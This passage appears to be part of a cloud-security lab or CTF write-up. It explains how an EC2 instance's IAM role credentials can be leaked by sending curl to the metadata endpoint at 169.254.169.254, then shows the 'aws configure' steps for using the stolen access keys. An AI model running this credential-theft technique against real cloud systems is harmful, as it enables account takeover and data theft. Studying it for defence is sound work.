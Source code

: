 ```https://ocmzmc46s8.execute-api.us-east-1.amazonaws.com/```

See in most cases an ec2 instance needs to access other AWS services like S3, DynamoDB, etc. and to do that it needs to have an IAM role attached to it, and this IAM role has permissions to access these services, so if we can leak the IAM role name and the permissions attached to it, we can use it to access these services.


so a typical payload will be like this:

```bash
curl -X GET http://169.254.169.254/latest/meta-data/iam/security-credentials/<iam-role-name>
```

![alt text](image-8.png)


and voila, we are able to leak the IAM role name and the permissions attached to it, now we can use this information to access other AWS services.

but first we need to configure these creds in order to use them, lets use [aws cli](https://docs.aws.amazon.com/cli/)

```bash
aws configure
#----------------------- you will need to fill creds here:
AWS Access Key ID [None]: <access-key-id>
AWS Secret Access Key [None]: <secret-access-key>
Default region name [None]: us-east-1
Default output format [None]: json
```
